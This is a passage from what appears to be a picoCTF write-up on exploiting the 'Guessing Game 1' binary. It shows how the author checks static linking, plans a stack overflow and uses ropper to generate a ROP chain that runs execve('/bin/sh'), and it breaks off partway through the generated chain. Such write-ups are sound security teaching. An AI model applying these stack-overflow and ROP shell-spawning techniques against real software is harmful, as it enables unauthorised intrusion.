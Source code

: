 Our binary is statically linked:
```console
root@kali:/media/sf_CTFs/pico/Guessing_Game_1# ldd ./vuln
        not a dynamic executable
```

This means that we have many gadgets that can be used in order to create a ROP chain.

Therefore, our plan is to:
1. Generate a ROP chain
2. Find the exact overflow offset
3. Override the stack at the overflow offset with the ROP chain and spawn a shell

We can generate a ROP chain using a tool, we just need to make sure that:
 * The padding and the ROP chain both fit into 360 bytes.
 * The ROP chain does not contain any byte with the value '`0x0a`' (a.k.a '`\n`') since `fgets` will stop reading when it encounters a newline.

ROPgadget ("`ROPgadget --binary ./vuln --ropchain --badbytes 0a`") produces a ROP chain which is too long, but `ropper` gets it right:

```console
root@kali:/media/sf_CTFs/pico/Guessing_Game_1# source /hdd2/py3venv/ropper/bin/activate
(ropper) root@kali:/media/sf_CTFs/pico/Guessing_Game_1# ropper --file ./vuln  --chain "execve cmd=/bin/sh" --badbytes 0a
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%

[INFO] ROPchain Generator for syscall execve:


[INFO]
write command into data section
rax 0xb
rdi address to cmd
rsi address to null
rdx address to null


[INFO] Try to create chain which fills registers without delete content of previous filled registers
[*] Try permuation 1 / 24
[INFO]

[INFO] Look for syscall gadget

[INFO] syscall gadget found
[INFO] generating rop chain
#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # f01c7ecf217d3cebdf4f676920f17ebfcb33d5d14d78df8dfffed5c5290e6f62
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x000000000000dbeb) # 0x000000000040dbeb: pop r13; ret;
rop += '//bin/sh'
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e0)
```